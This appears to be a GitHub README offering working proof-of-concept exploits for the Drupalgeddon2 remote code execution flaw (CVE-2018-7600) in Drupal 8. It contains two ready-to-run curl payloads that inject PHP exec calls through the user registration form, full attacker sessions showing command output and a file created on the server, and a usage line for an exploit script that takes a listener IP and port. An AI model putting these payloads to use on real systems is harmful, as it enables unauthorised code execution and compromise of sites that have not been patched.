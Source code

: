 # CVE-2018-7600 | Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' RCE (SA-CORE-2018-002)

### Inspired from https://github.com/dreadlocked/Drupalgeddon2
- - -

## Drupal v8.x

_Tested on Drupal v8.4.5 / v8.5.0_


### PoC #1 - #post_render / account/mail / exec
- It uses the `user/register` URL, `#post_render` parameter, targeting `account/mail`, using PHP's `exec` function.

```
  curl -k -i 'http://localhost/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=uname -a'
```

The server will give 200 response & display JSON.
It **IS** able to render the output in the response _(such as doing uname -a)_.

**Example**

```bash
[g0tmi1k@attacker]$ curl -k -i 'http://localhost/drupal-8.4.5/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
  --data 'form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=uname -a'
HTTP/1.1 200 OK
Date: Wed, 18 Apr 2018 15:56:29 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.24
Cache-Control: must-revalidate, no-cache, private
X-UA-Compatible: IE=edge
Content-language: en
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Expires: Sun, 19 Nov 1978 05:00:00 GMT
X-Generator: Drupal 8 (https://www.drupal.org)
X-Drupal-Ajax-Token: 1
Content-Length: 280
Content-Type: application/json

[{"command":"insert","method":"replaceWith","selector":null,"data":"Linux ubuntu140045x64-drupal 3.13.0-144-generic #193-Ubuntu SMP Thu Mar 15 17:03:53 UTC 2018 x86_64 x86_64 x86_64 GNU\/Linux\u003Cspan class=\u0022ajax-new-content\u0022\u003E\u003C\/span\u003E","settings":null}]
[g0tmi1k@attacker]$
```

- - -

### PoC #2 - #lazy_builder / timezone/timezone / exec
- It uses the `user/register` URL, `#lazy_builder` parameter, targeting `timezone/timezone`, using PHP's `exec` function.

```
  curl -k -i 'http://localhost/user/register?element_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=exec&timezone[a][#lazy_builder][][]=touch+/tmp/2'
```

The server will give 500 response & display "The website encountered an unexpected error. Please try again later".
It is **NOT** able to render the output in the response _(Blind!)_.

**Example**

```bash
[g0tmi1k@attacker]$ curl -k -i 'http://localhost/drupal-8.4.5/user/register?element_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=exec&timezone[a][#lazy_builder][][]=touch+/tmp/2'
HTTP/1.0 500 500 Service unavailable (with message)
Date: Wed, 18 Apr 2018 15:58:04 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.24
Cache-Control: no-cache, private
Content-Length: 74
Connection: close
Content-Type: text/html

The website encountered an unexpected error. Please try again later.<br />
[g0tmi1k@attacker]$


root@ubuntu140045x64-drupal:~# stat /tmp/2
  File: '/tmp/2'
  Size: 0         	Blocks: 0          IO Block: 4096   regular empty file
Device: fd01h/64769d	Inode: 59488       Links: 1
Access: (0644/-rw-r--r--)  Uid: (   33/www-data)   Gid: (   33/www-data)
Access: 2018-04-18 15:58:05.061898957 +0000
Modify: 2018-04-18 15:58:05.061898957 +0000
Change: 2018-04-18 15:58:05.061898957 +0000
 Birth: -
root@ubuntu140045x64-drupal:~#
```

- - -

### Script Usage:
#### Tested on Drupal 8, Drupal 7 part of the exploit is yet to be coded
`python drupalgeddon2.py -t http://xxx.xxx.xxx.xxx -l xxx.xxx.xxx.xxx -p xxxx`

![]()
